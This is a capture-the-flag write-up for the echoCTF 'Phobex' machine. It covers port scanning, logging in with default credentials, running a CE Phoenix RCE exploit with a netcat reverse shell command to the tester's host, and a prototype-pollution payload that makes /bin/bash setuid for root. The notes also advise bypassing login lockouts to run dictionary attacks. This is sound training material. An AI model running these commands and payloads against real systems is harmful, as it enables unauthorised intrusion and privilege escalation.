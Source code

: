 ```yaml
---
description: >-
  Phobex echoCTF Machine
title: Phobex (Intermediate)                # Add title here
date: 2025-02-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, Prototype Pollution, CE Phoenix]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Phobex.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.231 phobex.echocity-f.com
```

### Content

- Default Credentials
- CE Phoenix 1.0.8.20 Remote Code Execution
- @almela/obx Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.231
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.231 ()   Status: Up
Host: 10.0.160.231 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.231
Nmap scan report for 10.0.160.231
Host is up, received user-set (0.17s latency).
Scanned at 2025-02-24 19:56:59 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:8b:4a:b8:d8:62:4d:cb:59:4a:c7:7c:43:0c:7d:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIRQzh/YlEJzovVge+51kZ1Mx5xft/0I/1RPWVmuZuJs
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
|_http-title: Echo Phoenix
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

There is a Web Service running on port 80 called `CE Phoenix` looking for exploits on it, we identified the following [CE Phoenix 1.0.8.20 Remote Code Execution](https://vulners.com/zdt/1337DAY-ID-39172), but the exploit requires authentication, also the exploit points to the `admin` URI, I then tried to login using Default Credentials, and I got the pair `admin:password123`, with this, we can execute the script which is an OS Command Injection vulnerability:
```bash
python3 exploit.py http://phobex.echocity-f.com/ 'admin' 'password123' 'nc -e /bin/bash 10.10.5.122 1234'

     CE Phoenix v1.0.8.20 - Remote Code Execution

     Author:tmrswrr                                                           

[+] Starting the exploitation process...
[+] Attempting to exploit the target...
[+] Performing login...
[+] Login successful.
[+] Executing the exploit...
[+] Exploit executed successfully.
```

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@phobex:/var/www/html$ sudo -l
Matching Defaults entries for www-data on phobex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on phobex:
    (ALL : ALL) NOPASSWD: /usr/local/bin/obex
```
Its content is like this:
```bash
#! /usr/bin/env node
var args = process.argv.slice(2);
const { exec } = require('child_process');

(async () => {
  const lib = await import('@almela/obx');
  var USER_JSON = JSON.parse(args[0]);
  var user={
    'username': "root"
  };
  try {
    lib.add (user, USER_JSON)
  } catch (e) { }
  var newUser={}
  if(newUser.authenticated==true)
  {
    exec(newUser.command);
  }
})();
```

As usual, the vulnerability relays on the imported library, in this case `@almela/obx`, there is a vulnerability reported as [Prototype Pollution in @almela/obx](https://security.snyk.io/vuln/SNYK-JS-ALMELAOBX-7271947), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@phobex:/var/www/html$ sudo /usr/local/bin/obex '{"__proto__":{"authenticated":true,"command":"chmod +s /bin/bash"}}'
www-data@phobex:/var/www/html$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for CE Phoenix CMS are `admin:password123`

### Notes

-  Always look for admin endpoints, sometimes the webapps have two or more login pages. If the application has a failed user attempt protection, always try to delete the cookies, use another CSRF token or bypass such protection so you are able to perform a dictionary attack, it is important to know how to use Burp Macros for that matter, in this case, this machine took me a lot of time because the credentials `admin:password123` did not worked when I tried to use them, but that was because I was on cool off period for attempting a lot of other default credentials.  

### References

- [CE Phoenix 1.0.8.20 Remote Code Execution](https://vulners.com/zdt/1337DAY-ID-39172)
- [Prototype Pollution in @almela/obx](https://security.snyk.io/vuln/SNYK-JS-ALMELAOBX-7271947)

